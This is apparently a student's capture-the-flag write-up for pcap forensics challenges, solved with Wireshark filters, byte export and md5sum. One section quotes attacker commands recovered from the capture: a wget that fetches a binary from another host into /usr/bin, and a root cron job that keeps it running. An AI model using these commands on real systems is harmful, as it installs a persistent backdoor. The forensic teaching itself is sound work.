




# Network Traffic Analysis challenges
aka pcap challenges!

## Introduction
This writeup is for all the challenges under the category of `pcap`. All challenges use one pcap file, and each task requires analysis of different parts of the file.

## Monstrum ex Machina | 30pts


### Solution
Firstly, I searched to see if there was a direct way to look for search engine fields as there were a LOT of packets to filter through. I didn't get anything, but I did find a list of possible search engines, some of which I didn't know existed, in [this article](https://stackoverflow.com/questions/55243226/using-python-to-search-through-a-pcap-file-and-return-key-information-about-the). This definitely helped finding the flag easier.

I started to look through packets till I found some HTTP requests and responses. One of them mentioned baidu.com, so I went and followed the HTTP stream from that point on.


I found some JSON, which what looked like a bunch of search queries. Only one of them appeared to resemble a name, and I entered that as the flag. 



PS: This particular HTTP stream had an error with the spelling. It was only through searching this name myself did I realize this. 

From other writeups however, I found that there were packets where the spelling was correct. I didn't find those while the challenge was going on, so I reached out to the author of the challenge, and eventually both spellings were considered as the correct flag.

Flag: `flag{Charles Geschickter}`
<br /><br />

## The SUM of all FEARS | 50pts


### Solution
Once again, off to Google to find an easier way to search for the file, and I found a way through [this video!](https://www.youtube.com/watch?v=3WQ19weoBc4)

In summary, using the display filter `frame contains <text>`can be used to look for specific files. In the video, the exe file is found by looking for the file headers, aka "MZ". Similarly the linux binary can be found by looking for "ELF".




As seen, there are two binaries with identical names, `lytton-crypt.exe` and `lytton-crypt.bin`

I initially thought that just this packet had the contents of the file, so I exported the bytes, calculated the md5 sum for both and typed the flag. That didn't work.

After which I removed the display filter, and saw that the contents are transferred in multiple parts (for both the EXE and the BIN). That explains why it didn't work. (The parts are marked in black)


I don't know of a way to data from multiple packets as one file yet, so I exported each part as separate files and appended the data to the main file in the terminal. An example for the BIN file is below:

Step 1: Export the data from the packets by right clicking on FTP Data > Export Bytes.


Step 2: Append the data from each of the parts to the first part, `lytton-crypt.bin`.
```shell
$ cat lytton-crypt2.bin >> lytton-crypt.bin
$ cat lytton-crypt3.bin >> lytton-crypt.bin
```
The same steps were followed for the EXE binary.

Now that we have the complete EXE and BIN binaries, it is time to calculate the MD5 hash and complete the challenge!

```shell
$ echo "flag{"$(md5sum lytton-crypt.exe | cut -d ' ' -f 1)"|"$(md5sum lytton-crypt.bin | cut -d ' ' -f 1)"}"
flag{9cb9b11484369b95ce35904c691a5b28|4da8e81ee5b08777871e347a6b296953}
```

PS: The `cut` statement is added to remove the name of the file which is usually included in the output of `md5sum`.

Flag: `flag{9cb9b11484369b95ce35904c691a5b28|4da8e81ee5b08777871e347a6b296953}`
<br />

## Release the Crackin'! | 50pts


### Solution
Off to Google AGAIN to look for ways to search for passwords, these challenges really taught me about features of Wireshark I had no idea existed.

The solution for this challenge comes from [this video](https://www.youtube.com/watch?v=BFcl5OciJWc) about the Credentials feature in Wireshark.

By clicking on Tools > Credentials, Wireshark analyzes for potential usernames and passwords in this pcap file. 


I looked through some of the MANY packets listed, but then something struck. The last packet should be the one to check, as that would have the password through which the attacker logged in.


THERE WE GO! The password is darkangel.

Flag: `flag{darkangel}`
<br /><br />

## Luciafer, You Clever Little Devil! | 50pts


### Solution
The answer for this can be found in the last screenshot of the previous challenge. The packet number of the "User is logged in" response is the answer for this challenge.

Flag: `flag{159765}`
<br /><br />

## Lucifer's Fatal Error | 50pts


### Solution
While searching for the `lytton-crypt` binaries, I found another binary called `secret-decoder.bin`. Viewing the contents of this file, we see a command to execute a shell.



That is enough evidence that this is the malicious program. I exported the bytes similar to the [SUM of all FEARS challenge](#sum-of-all-fears) and then calculated the MD5 hash. This binary was only in one packet so that was easy!

```shell
$ echo "flag{"$(md5sum secret-decoder.bin | cut -d ' ' -f 1)"}" 
flag{42e419a6391ca79dc44d7dcef1efc83b}
```

Flag: `flag{42e419a6391ca79dc44d7dcef1efc83b}`
<br /><br />

## Scanners | 100pts


### Solution
From the previous challenge, we know that Lucaifer's IP address is 192.168.100.106 and the IP of the victim computer is 192.168.100.103. So we have to look for packets sent from Lucaifer to the victim computer.

This can be done by setting a display filter `ip.src==192.168.100.106 && ip.dst==192.168.100.103` 

A feature that makes sorting through the packets even easier is the Conversations feature in Wireshark, which I found out from [this video](https://www.youtube.com/watch?v=Zi1aaEJg5YI) (yes, I referred to a lot of YouTube videos throughout these challs). This shows a summary of all the packets sent in this pcap file.


Before finding the port numbers, I checked the "limit to display filter" button in the bottom so that the information could be filtered further. After this, I started to look through the list and noted down the port numbers where more than one packet was sent, as is seen with port 21 in the above image. The ports found were 21, 135, 139, 445 and 3389.


Flag: `flag{21,135,139,445,3389}`
<br /><br />

## Persistence Pays Off | 100pts


### Solution
I went back to the packet where secret-decoder.bin was downloaded by Lucaifer to see if there were any adversary after installing it. The IP found was 192.168.100.105


I then filtered the packets using the display filter `ip.src==192.168.100.105 && ip.dst==192.168.100.106` and looked for any packets that may contain something suspicious.

A few packets were found with the following bash commands:
```shell
sudo wget -O /usr/bin/ll-connect.bin http://192.168.100.105/secret_decoder.bin
```
```shell
sudo chmod 755 /usr/bin/ll-connect.bin
```
```shell
sudo /bin/bash -c "echo '*/5 * * * * root /usr/bin/ll-connect.bin' > /etc/cron.d/da-ll-backup-job"
```
These may be to set up some sort of backdoor, I'm not very sure but the last command looks like an attempt to attain persistence.

The last command was found in packet 160468, which is the flag for this challenge.


Flag: `flag{160468}`
<br /><br />

## A Warning | 150pts


### Solution
While going through the packets for the previous challenge, I found two packets that had some interesting information. These packets were above the "Stay away from Lytton labs..." message


I tried decoding the text in the first screenshot, nothing. The second screenshot, however, mentions an image called da-warning-message.jpg

I entered the display filter `frame contains "da-warning-message"` to see if I can get the image file in one of the packets.


I then removed the display filter to look through the packets after the HTTP OK message, and the very next packet was the one with the image!


I exported the image by right clicking on the JPEG File Interchange Format section and clicking on "Export Bytes". After saving the file and opening it, there it was, the flag for the challenge


Flag: `flag{angels-fear-to-tread}`
